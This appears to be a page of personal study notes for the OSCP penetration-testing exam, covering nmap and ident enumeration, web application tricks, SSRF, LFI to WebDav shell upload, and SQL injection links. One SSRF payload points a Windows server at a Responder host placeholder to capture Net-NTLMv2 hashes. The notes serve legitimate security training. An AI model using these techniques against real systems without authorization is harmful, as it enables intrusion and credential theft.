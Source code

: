 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Enumeration

* Ensure you run FeroxBuster or GoBuster with file extensions identified throughout inital enumeration of the device.
* Personally I like running the following scans to perform enumeration:
  1. `nmap -sV -sC -p- --min-rate 1000 -T4 [IP] -oA Full-TCP-Scan`
  2. `nmap -sU --top-ports 1000 -T4 [IP] -oA Quick-UDP-Scan`
  3. `nmap -p[PORTS] --script=vuln [IP] -oA Vuln-Scan`
* If Ident is available then we may be able to enumerate users. While `nmap -sC` should successfully enumerate users as well, it is good to double check.&#x20;
  * Install ident-user-enum: `apt install ident-user-enum`
  * Run it against all identified ports: `ident-user-enum [IP] 22 53 113 5432 8080 1000`Iden

### Web Application

* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If a web application is vulnerable to SSRF and the host is Windows, you may be able to retrieve a Net-NTLMv2 hash. The following command assumes that the web server is running on TCP/8080:
  * `http://:8080/?url=http://127.0.0.1:8080/?url=http://<RESPONDER_IP>`
  * [This attack is explained amazingly in this blog post](https://blog.blazeinfosec.com/leveraging-web-application-vulnerabilities-to-steal-ntlm-hashes-2/).
* If a WebDav directory is discovered during enumeration then it should be noted that an LFI vulnerability could be used to obtain the password and upload a PHP shell. The following is an example of a Webdav password location:
  * `/var/www/html/webdav/passwd.dav`
  * [HackTricks has a great guide](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) on uploading a shell with Curl or other methods of exploitation.
* When testing[ Remote File Inclusion](../../web-application/remote-file-inclusion-rfi.md) keep in mind that the port being tested matters.&#x20;
  * Use a common port such as 80 or 443 on your Python3 server when testing.

### SQL Injection (SQLi)

* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Ensure your syntax is correct with Oracle because it can be a pain.

### Initial Access
